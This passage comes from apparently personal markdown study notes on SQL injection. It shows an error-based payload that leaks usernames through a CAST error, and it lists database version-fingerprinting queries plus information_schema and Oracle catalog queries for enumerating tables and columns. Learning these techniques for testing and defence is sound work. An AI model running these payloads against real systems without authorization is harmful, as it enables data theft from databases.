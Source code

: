 3. Extract information (this will fail as it tries to convert string to int, logging the string in the error)
{% highlight SQL %}
' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
{% endhighlight %}

## Discovering System Information
- There is often varibles and tables that come as default for many SQL implementations that details the versions and technologies used
- These are specific to the languag but can be very helpful for recon on the target

{% highlight sql %}
-- Oracle:
SELECT banner FROM v$version
SELECT banner FROM v$version WHERE banner LIKE ‘Oracle%’
SELECT banner FROM v$version WHERE banner LIKE ‘TNS%’
SELECT version FROM v$instance
{% endhighlight %}

The queries to determine the database version for some popular database types are as follows:

|   |   |
|---|---|
|Database type|Query|
|Microsoft, MySQL|`SELECT @@version`|
|Oracle|`SELECT * FROM v$version`|
|PostgreSQL|`SELECT version()`|

For most database types (notably excluding Oracle) a set of views called the *Information schema* can provide database information:
{% highlight sql %}
SELECT * FROM information_schema.tables
{% endhighlight %}

This will return something like this:

| TABLE_CATALOG | TABLE_SCHEMA | TABLE_NAME | TABLE_TYPE |
| ------------- | ------------ | ---------- | ---------- |
| MyDatabase    | dbo          | Products   | BASE TABLE |
| MyDatabase    | dbo          | Users      | BASE TABLE |
| OtherDatabase | public       | Feedback   | BASE TABLE | 

Finding columns is simple after this:
{% highlight sql %}
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
{% endhighlight %}

Equivalent information for *Oracle*:
{% highlight sql %}
SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'Users'
{% endhighlight %}

